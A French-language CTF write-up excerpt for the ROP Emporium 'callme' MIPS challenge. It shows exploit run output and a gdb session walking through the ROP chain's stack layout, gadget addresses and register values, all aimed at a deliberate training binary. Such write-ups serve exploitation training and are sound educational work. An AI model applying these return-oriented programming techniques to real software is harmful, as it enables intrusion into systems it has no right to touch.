 ### Execution

    python3 solve.py
    [*] '/w/ropemporium/mipsel/03_callme/callme_mipsel'
        Arch:     mips-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        RUNPATH:  b'.'
    [+] Starting local process '/w/ropemporium/mipsel/03_callme/callme_mipsel': pid 65
    [*] callme_one=400d1c
    [*] callme_two=400d7c
    [*] callme_three=400d0c
    [+] flag : ROPE{a_placeholder_32byte_flag!}
    [*] Stopped process '/w/ropemporium/mipsel/03_callme/callme_mipsel' (pid 65)


### Déroulement sous gdb


Le déroulemen ci desous est celui du script précéddent en l'état donc avec un soucis

    python3 solve.py -d


BP en fin de pwnme.

     0x400b04 <pwnme+192>      lw     ra, 60(sp)
     0x400b08 <pwnme+196>      lw     s8, 56(sp)
     0x400b0c <pwnme+200>      addiu  sp, sp, 64
 →   0x400b10 <pwnme+204>      jr     ra
   ↳    0x400bb0 <usefulGadgets+0> lw     a0, 16(sp)
        0x400bb4 <usefulGadgets+4> lw     a1, 12(sp)
        0x400bb8 <usefulGadgets+8> lw     a2, 8(sp)
        0x400bbc <usefulGadgets+12> lw     t9, 4(sp)
        0x400bc0 <usefulGadgets+16> jalr   t9
        0x400bc4 <usefulGadgets+20> nop

    gef➤  x/12x $sp
    0x40800c30:     0x00000000      0x00400d1c      0xd00df00d      0xcafebabe
                    junk            callme_one      a2              a1
    0x40800c40:     0xdeadbeef      0x00400bb0      0x00000000      0x00400d7c
                    a0              gadget          junk            callme_two
    0x40800c50:     0xd00df00d      0xcafebabe      0xdeadbeef      0x00400bb0

On avance sur le call

    ni 3
     0x400bb4 <usefulGadgets+4> lw     a1, 12(sp)
     0x400bb8 <usefulGadgets+8> lw     a2, 8(sp)
     0x400bbc <usefulGadgets+12> lw     t9, 4(sp)
    →0x400bc0 <usefulGadgets+16> jalr   t9
     0x400bc4 <usefulGadgets+20> nop
     0x400bc8 <usefulGadgets+24> lw     ra, 20(sp)
     0x400bcc <usefulGadgets+28> jr     ra
     0x400bd0 <usefulGadgets+32> addi   sp, sp, 24
     0x400bd4 <usefulGadgets+36> nop
    gef➤  i r a0 a1 a2 t9
    a0: 0xdeadbeef
    a1: 0xcafebabe
    a2: 0xd00df00d
    t9: 0x400d1c
